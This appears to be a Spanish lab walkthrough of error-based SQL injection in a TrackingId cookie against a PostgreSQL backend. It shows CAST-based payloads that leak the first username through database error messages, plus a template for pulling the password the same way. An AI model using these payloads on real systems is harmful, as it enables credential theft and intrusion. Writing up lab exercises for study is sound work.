   * `ERROR: invalid input syntax for type integer: "administrator"`
  * `ERROR: more than one row returned by a subquery used as an expression`
* **Interpretación:**
  El error confirma que el subquery se ejecuta correctamente, pero devuelve varias filas o devuelve un valor no convertible a entero.

---

## 6️⃣ Reducir espacio: eliminar parte del TrackingId

```bash
TrackingId='
```

* **Observación:** Devuelve un error que sugiere que la consulta se ha ejecutado pero el resultado produjo un tipo/valor inesperado:
  `ERROR: more than one row returned by a subquery used as an expression`

---

## 7️⃣ Forzar la subconsulta a devolver una sola fila (`LIMIT 1`)

```bash
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

* **Resultado:**
  `ERROR: invalid input syntax for type integer: "administrator"`
* **Conclusión:**
  ✅ El error revela el **primer nombre de usuario** (`administrator`).

---

## 8️⃣ Repetir para la contraseña

➡️ **Aquí van los comandos para la contraseña**, repitiendo la estructura anterior pero apuntando a la columna `password`.

Ejemplo de plantilla (rellenar/completar con tus comandos):

```bash
# Aquí van los comandos
# Ejemplo: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

---

##  Resumen del proceso

| Paso | Acción                        | Resultado                    | Conclusión                         |
| ---- | ----------------------------- | ---------------------------- | ---------------------------------- |
| 1    | Probar `TrackingId` normal    | Sin error                    | Parámetro válido                   |
| 2    | Añadir `'--`                  | Sin error                    | Vulnerable a inyección             |
| 3    | `AND CAST((SELECT 1) AS int)` | Error de tipo                | SQL ejecutado                      |
| 4    | Corregir a booleano           | Sin error                    | Validación pasada                  |
| 5    | Extraer `username`            | Error revela múltiples filas | Subquery ejecutada                 |
| 6    | Añadir `LIMIT 1`              | Error con valor literal      | Usuario encontrado                 |
| 7    | Repetir con `password`        | —                            | Contraseña revelada (si se aplica) |

---

